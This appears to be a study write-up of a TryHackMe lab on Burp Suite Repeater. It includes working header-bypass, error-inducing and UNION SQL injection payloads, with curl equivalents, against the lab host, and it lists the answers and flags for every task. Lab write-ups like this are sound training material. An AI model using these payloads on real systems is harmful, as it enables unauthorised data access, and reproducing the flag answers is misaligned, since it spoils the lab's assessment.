

# Burp Suite: Repeater (Comprehensive Technical Guide)

---

## 1. Metadata & Overview

* **Curriculum Track:** Jr Penetration Tester (PT1 Aligned Curriculum)
* **Module:** Module 06 - Burp Suite
* **Room Number:** Room 02 of 06
* **Platform Room Name:** Burp Suite: Repeater
* **Official Room Link:** [TryHackMe - Burp Suite: Repeater](https://tryhackme.com/room/burpsuiterepeater)
* **Difficulty:** Easy / Walkthrough
* **Tactical Objective:** Master manual HTTP request manipulation and retransmission, leverage the Inspector panel, manipulate arbitrary headers, induce 500 Internal Server Errors via boundary fuzzing, and execute Union-based SQL Injection attacks to dump database records.

---

## 2. Executive Summary

The **Burp Suite Repeater** module functions as the quintessential interactive HTTP workbench for penetration testers. While standard web browsers obscure protocol-level operations behind DOM trees and client-side JavaScript execution, and while the Burp Proxy passively intercepts traffic in flight, Repeater provides an isolated environment where testers can modify and re-transmit raw HTTP requests at will.

This guide provides an end-to-end technical exploration of the Repeater architecture:
1. Seamless transitions from Proxy HTTP History to Repeater tabs via `Ctrl + R`.
2. Granular dissection of the dual-pane layout (Request View vs. Response View).
3. Strategic utilization of the Message Analysis Toolbar views (Pretty, Raw, Hex, and Render).
4. Leveraging the **Inspector** sidebar to modify Request Attributes, Query Parameters, Request Headers, Cookies, and POST-specific `Body Parameters`.
5. Practical exploitation: bypassing client-side authorization via custom header injection (`FlagAuthorised: True`), extracting sensitive debugging data from unhandled runtime exceptions (HTTP 500), and orchestrating a surgical Union-based SQL Injection against the `/about/ID` endpoint.

---

## 3. Architecture & Concepts Diagram



---

## 4. Prerequisites & Setup

1. **Required Tooling:**
   * **Burp Suite Community Edition** (v2023.x+ or v2024.x+) or Professional.
   * Built-in Chromium Browser (pre-configured with Burp CA certificate).
2. **Lab Machine Initialization:**
   * Click **Start Machine** on TryHackMe to obtain `MACHINE_IP`.
   * Verify network connectivity through the OpenVPN tunnel or AttackBox:
     ```bash
     ping -c 3 MACHINE_IP
     ```
3. **Proxy Configuration:**
   * Ensure proxy listener is active on `127.0.0.1:8080`.
   * Toggle **Intercept is off** in `Proxy -> Intercept` to allow background population of HTTP History.

---

## 5. Core Concepts & Theoretical Deep Dive

### State Isolation in Repeater
When a captured request is transferred from Proxy History to Repeater, Burp creates an independent memory clone. Mutating values in Repeater does not alter the history entry or disrupt the live browser session. This enables rapid, isolated hypothesis testing without corrupting stateful session flows.

### Inspector Data-Binding
The **Inspector** panel provides visual bidirectional binding with the raw HTTP text:
* Changing a value in the Inspector automatically recalculates character lengths and applies URL encoding.
* Modifying raw text automatically updates the corresponding Inspector fields.
* The `Body Parameters` section specifically handles URL-encoded form data (`application/x-www-form-urlencoded`) and multipart POST data.

### UNION-Based SQL Injection Mechanics
SQL `UNION` operations concatenate result sets from multiple `SELECT` statements into a single table. Strict relational database rules govern this technique:
1. **Column Cardinality:** Both queries must return the exact same number of columns.
2. **Type Compatibility:** Data types across corresponding columns must be mutually compatible.
3. **Primary Query Nullification:** To force the application to display the attacker's injected rows on pages that render only the first returned record, the primary query condition must be made false (e.g., `id = 0` or `id = -1`).

---

## 6. Room Breakdown & Navigation

The room comprises 9 progressive tasks:
* **Task 01: Introduction** — Purpose and tactical value of manual HTTP repetition.
* **Task 02: What is Repeater?** — Architecture, dual-pane design, and the Inspector panel.
* **Task 03: Basic Usage** — Dispatching requests (`Ctrl + R`) and socket transmission (`Send`).
* **Task 04: Message Analysis Toolbar** — Exploring Pretty, Raw, Hex, and Render modes.
* **Task 05: Inspector** — In-depth breakdown of parameter types and POST Body Parameters.
* **Task 06: Practical Example** — Header tampering (`FlagAuthorised: True`) to bypass naive auth gates.
* **Task 07: Challenge** — Inducing HTTP 500 Internal Server Errors via boundary fuzzing.
* **Task 08: Extra-mile Challenge** — Multi-stage UNION SQLi against `/about/ID` to exfiltrate DB records.
* **Task 09: Conclusion** — Tactical transition toward automated fuzzing with Burp Intruder.

---

## 7. Task-by-Task Implementation Summary

| Task # | Task Title | Question | Verified Answer | Stage A-G Detailed File |
| :---: | :--- | :--- | :--- | :---: |
| **01** | Introduction | Let's get started! | `No answer needed` | [TASK-01.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-01.md) |
| **02** | What is Repeater? | Which section provides an intuitive interface for editing requests? | `Inspector` | [TASK-02.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-02.md) |
| **03** | Basic Usage | Which view will be populated when we send a request from the Proxy to Repeater? | `Request` | [TASK-03.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-03.md) |
| **04** | Message Analysis Toolbar | Which view option displays the response as it would appear in a browser? | `Render` | [TASK-04.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-04.md) |
| **05** | Inspector | Which section in the Inspector is specific to POST requests? | `Body Parameters` | [TASK-05.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-05.md) |
| **06** | Practical Example | Capture request... add FlagAuthorised header... | `THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}` | [TASK-06.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-06.md) |
| **07** | Challenge | See if you can get the server to return an error 500... | `THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl}` | [TASK-07.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-07.md) |
| **08** | Extra-mile Challenge | Exploit union-based SQL injection on /about/ID... | `THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}` | [TASK-08.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-08.md) |
| **09** | Conclusion | I can now use Repeater to manually edit and resend... | `No answer needed` | [TASK-09.md](file:///e:/THM-JR-PENETRATION-TESTER/06-BURP-SUITE/02-BURP-SUITE-REPEATER/TASKS/TASK-09.md) |

---

## 8. Practical Labs & Hands-on Exploitation

### Exercise 1: Custom Header Authorization Bypass
* **Target:** `/flag/1`
* **Injected Header:**
  ```http
  FlagAuthorised: True
  ```
* **Captured Flag:** `THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}`

### Exercise 2: Inducing Runtime Crashes via Boundary Inputs
* **Target:** `/products/ID`
* **Tampered Request:**
  ```http
  GET /products/-1 HTTP/1.1
  ```
* **Result:** Unhandled server exception dumping debug output containing: `THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl}`

### Exercise 3: Full UNION SQL Injection Pipeline
* **Target:** `/about/ID`
* **Column Determination:** 5 columns confirmed via `/about/0%20UNION%20ALL%20SELECT%20null,null,null,null,null`.
* **Payload:**
  ```http
  GET /about/0%20UNION%20ALL%20SELECT%20notes,null,null,null,null%20FROM%20people%20WHERE%20id%20=%201 HTTP/1.1
  ```
* **Captured Flag:** `THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}`

---

## 9. Red Team & Offensive Applications

* **Manual Business Logic Auditing:** Rapidly test negative numbers, non-numeric strings, and currency boundary values in shopping cart checkouts.
* **Time-Based Blind SQLi Verification:** Accurately measure millisecond-level server response delays when injecting database sleep functions (`SLEEP(5)`, `WAITFOR DELAY`).
* **Header-Based Authentication Bypass:** Probe reverse proxy headers (`X-Forwarded-For: 127.0.0.1`, `X-Custom-IP-Authorization`, `X-Original-URL`) to access administrative endpoints.

---

## 10. Blue Team & Defensive Strategies

* **Eliminate Header-Based Trust:** Web applications must never rely on incoming HTTP headers for authorization unless cryptographically validated or re-written by trusted upstream proxies.
* **Defensive Error Handling (CWE-209 Mitigation):** Disable production debug modes (`APP_DEBUG=false`, `display_errors = Off`) and implement generic HTTP 500 error pages.
* **Enforce Parameterized SQL Queries:** Replace all dynamic SQL string concatenation with prepared statements.

---

## 11. Troubleshooting & Edge Cases

* **Issue: Server returns 400 Bad Request.**
  * *Cause:* Corrupted CRLF boundaries or unencoded spaces.
  * *Fix:* Use the Inspector to edit parameters or press `Ctrl + Shift + U` to URL-encode selected input.
* **Issue: Connection hangs indefinitely.**
  * *Cause:* Incorrect `Content-Length` header in POST requests.
  * *Fix:* Ensure `Repeater -> Update Content-Length` is enabled in the top menu.
* **Issue: Render tab is blank.**
  * *Cause:* Client-side JavaScript execution is blocked in Render mode.
  * *Fix:* Review source code in `Pretty` or `Raw` view.

---

## 12. Cheatsheet & Command Line Equivalents

```bash
# Header tampering with curl
curl -s -H "FlagAuthorised: True" "http://MACHINE_IP/flag/1" | grep -o "THM{[^}]*}"

# Triggering 500 Error
curl -s "http://MACHINE_IP/products/-1" -i | grep -E "(HTTP/1.1 500|THM{)"

# UNION SQL Injection
curl -s "http://MACHINE_IP/about/0%20UNION%20ALL%20SELECT%20notes,null,null,null,null%20FROM%20people%20WHERE%20id%20=%201" | grep -o "THM{[^}]*}"
```

---

## 13. Knowledge Check & Verification Questions

1. **Question:** What is the fundamental operational difference between Proxy and Repeater?
   * *Answer:* Proxy passively intercepts and logs live browser traffic; Repeater provides an isolated, active workbench to edit and retransmit raw requests indefinitely.
2. **Question:** Why is relying on client-supplied headers like `FlagAuthorised: True` a critical flaw?
   * *Answer:* HTTP headers are completely under client control and can be manipulated or forged by anyone using an intercepting proxy.
3. **Question:** What two prerequisites must be satisfied for an SQL `UNION` query to succeed?
   * *Answer:* The injected query must match the original query's column count, and the corresponding column data types must be compatible.

---

## 14. References & Documentation

* [PortSwigger Burp Suite Repeater Documentation](https://portswigger.net/burp/documentation/desktop/tools/repeater)
* [PortSwigger Web Security Academy: SQL Injection UNION Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
* [IETF RFC 9110: HTTP Semantics](https://www.rfc-editor.org/rfc/rfc9110)
* [OWASP Top 10: A03:2021 - Injection](https://owasp.org/Top10/A03_2021-Injection/)
* [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html)
